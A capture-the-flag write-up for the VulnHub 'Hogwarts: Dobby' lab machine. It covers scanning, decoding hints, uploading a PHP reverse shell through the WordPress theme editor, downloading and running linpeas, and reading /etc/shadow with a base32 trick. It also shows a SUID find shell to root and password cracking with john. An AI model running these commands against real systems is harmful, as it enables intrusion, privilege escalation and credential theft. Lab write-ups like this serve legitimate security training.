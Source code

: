 ```yaml
---
title: Hogwarts-Dobby - Writeup
author: Elman Alizadeh
date: 2022-05-22 15:30:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, hogwarts, dobby]
---
```


Today we will take a look at Vulnhub: Dobby. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/1.jpeg" | relative_url }})

## Network scan

Command: sudo nmap -p- -sV -sC -oN nmap/open — open 192.168.0.105

```console
Nmap scan report for 192.168.0.105
Host is up (0.095s latency).
Not shown: 58603 closed tcp ports (reset), 6931 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==
|_http-server-header: Apache/2.4.46 (Ubuntu)
MAC Address: 3C:A0:67:C5:35:33 (Liteon Technology)
```

## Web

If we look at the source code of the page, we encounter something like this.

```console
Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==
```

Let’s decode with Base64

```console
too easy no? Potte/alohomorar
```

Trap

But below is a hint.

```console
/alohomoraDraco's 

password is his house ;)
```

I searched the internet for the name of the draco’s house.

```console
slytherin
```

## Gobuster

```console
/log                  (Status: 200) [Size: 45]
```

pass:OjppbGlrZXNvY2tz

hint → /DiagonAlley

When we look at the articles here, we see that the author’s name is Draco.

## Reverse shell

Let’s go to the admin panel.

Url: /wp-admin

Go to /wp-admin/theme-editor.php and select 404.php from twenty twenty.

Paste the php reverse shell.

[ReverseShell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

After listening, go to this link

Url: http://192.168.0.105/DiagonAlley/wp-content/themes/twentytwenty/404.php

After logging in

```console
Command: script /dev/null -c bash

Command: export TERM=xterm

ctrl+z

Command: stty raw -echo ; fg

Command: reset
```
## Root 

### Linpeas

[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```console
Your machine

Command: python3 -m http.server 80

Target machine

Command: wget http://192.168.0.107/linpeas.sh

Command: chmod +x linpeas.sh

Command: ./linpeas.sh
```
![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/2.png" | relative_url }})

We found two gaps.

### Vertical Privilege Escalation

Command: /usr/bin/find . -exec /bin/sh -p \; -quit

```console
www-data@HogWarts:/tmp$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
```

### Horizontal Privilege Escalation
```console
Command: LFILE=/etc/shadow

Command: base32 “$LFILE” | base32 — decode
```
We copy the dobby line and paste it into the hash file on our machine

Command: john hash — wordlist=/usr/share/wordlists/rockyou.txt

```console
Created directory: /home/al1z4deh/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilikesocks       (dobby)     
1g 0:00:09:45 DONE (2022-05-22 14:38) 0.001706g/s 1107p/s 1107c/s 1107C/s iloveJESUS..iheartjake
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Command: su dobby

Command: /usr/bin/find . -exec /bin/sh -p \; -quit

![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/3.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”
